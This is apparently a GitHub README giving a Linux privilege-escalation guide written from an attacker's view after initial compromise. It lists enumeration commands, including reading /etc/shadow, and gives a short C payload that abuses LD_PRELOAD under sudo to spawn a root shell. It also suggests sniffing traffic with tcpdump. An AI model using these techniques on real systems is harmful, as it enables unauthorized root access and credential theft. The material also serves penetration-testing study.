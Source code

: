 # Linux-PrivEsc-full-guide

Hi Folks! I made this repo that share the privilege escalation techniques I tend to use on Linux systems. At the moment, you will see basic stuff which works the best IRL but later I am going to add CTF specific techniques. Let's get into it!

# Enumeration

So, one of the your target company's users downloaded and executed a malicious file you happened to send them. You found credentials in clear text and connected back to the machine using SSH. What's the first thing you do? Identify where the hell are you and what you can do at this point of the engagement. For that I use the following commands:

## Some basic enumeration
```sh
history                            # identify previously executed commands in the shell
whoami                             # enumerate the user
id                                 # enumerate the user
cat /etc/{passwd,shadow,group}     # check if we can see the stored passwords, users, groups
cat /etc/{passwd,group}            # same but without shadow (usually 'Permission denied')
ps aux, ps aux | grep root         # see unusual processes and processes run by the root user
```

## Further enumeration of the system, kernel version, errors..etc
```sh
hostname
hostname --all-{fqdns,ip-addresses}
cat proc/{version,issue}
uname --kernel-{name,release,version}
uname --all
lscpu

sudo -l                            # to check which commands I can run as a super user without the password
```

After executing `sudo -l` check the value of LD_PRELOAD, \
if you see something like this: `env_keep += LD_PRELOAD` - Than you can use the following little `C src` to gain root access:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init(){
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

# Network enumeration

```sh
ifconfig   # to see network interfaces, ip addresses..etc
ip a       # alternative for ifconfig
ip -c a    # output in color
arp -a     # check to ARP table and discover additional assets on the subnet
ip neigh   # alternative for the arp command
ip route   # check the route table and discover gateways, additional IPs
netstat    # to see active connections

wireshark                                 # The network traffic analyzer - Wireshark
tcpdump -i <interface> -s 65535 -w <file> # The command-line network traffic analyzer - TCPDump
```

## Try to sniff traffic, it's less noisy and you have more data to work with during the engagement
